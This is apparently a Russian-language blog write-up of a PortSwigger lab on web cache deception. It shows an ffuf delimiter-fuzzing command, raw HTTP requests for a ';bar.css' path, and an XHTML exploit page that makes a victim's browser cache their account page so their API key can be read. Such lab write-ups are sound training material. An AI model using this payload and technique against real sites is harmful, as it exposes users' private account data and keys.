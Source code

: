 ```yaml
---
title: "Exploiting path delimiters for web cache deception"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-delimiter-discrepancies/web-cache-deception/lab-wcd-exploiting-path-delimiters"
classes: wide
---
```


Для прохождения лабы нужно найти `API`-ключи пользователя `carlos` с помощью **Web cache deception**. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/
```

## Solution

Залогинюсь в аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/1.png){: height="200" .align-center}

Аккаунт находится по следующему пути — `/my-account`. Добавлю строчку `bar` для проверки, выдаст ли мне ту же страницу.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/2.png){: height="200" .align-center}

Ожидаемо, что нет. Попробую перебрать  [список разделителей](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list), чтобы понять, какие из них подойдут. Для разнообразия воспользуюсь [`ffuf`](https://cu63.github.io/tools/ffuf/).

```bash
ffuf -w wordlists/webcache_delimeters.txt -u https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-accountFUZZbar -X GET
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/3.png){: height="200" .align-center}

Предположу, что эти символы являются разделителями. Наиболее подходящим выглядит `;`. Использую его:

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;bar
```

Получил ту же страницу ответа. Добавлю расширение `.css`, чтобы проверить, будет ли ответ кэшироваться. Для этого удобнее смотреть `Burp Suite`.

```http
GET /my-account;bar.css HTTP/2
Host: 0a750077032ed4f682a6e83000eb0023.web-security-academy.net
Cookie: session=qqr2NcH61DjJaM74YK4er7ewvpoSuduN
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Заголовок ответа:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Server: Apache-Coyote/1.1
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3833
```

Вижу в ответе `X-Cache: miss` и `Cache-Control`. Значит `.css` файлы кэшируются. Перейду в эксплойт сервер для создания нагрузки.

Так как я занимаюсь разработкой фишинговых нагрузок на работе, то мне не хочется использовать только `.html` и `.js` форматы. Поэтому вот вам немного флекса с `XHTML`:

```xhtml
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Payload</title>
</head>
<body>
    <img src="https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css" alt="Pwn" />
</body>
</html>
```

При открытии файла происходит обращение по адресу `https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css` для получения картинки. Но что-то идет не так, и данные пользователя кэшируются. Вот незадача. Файл называют `expoit.xhtml`, в `Content-Type` выставляю значение `application/xhtml+xml`. На сайте это выглядит вот так:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/4.png){: height="200" .align-center}

Отправляю запрос и проверяю страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/5.png){: height="200" .align-center}

`API`-ключ получен. Проверю его в верификаторе:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/6.png){: height="200" .align-center}
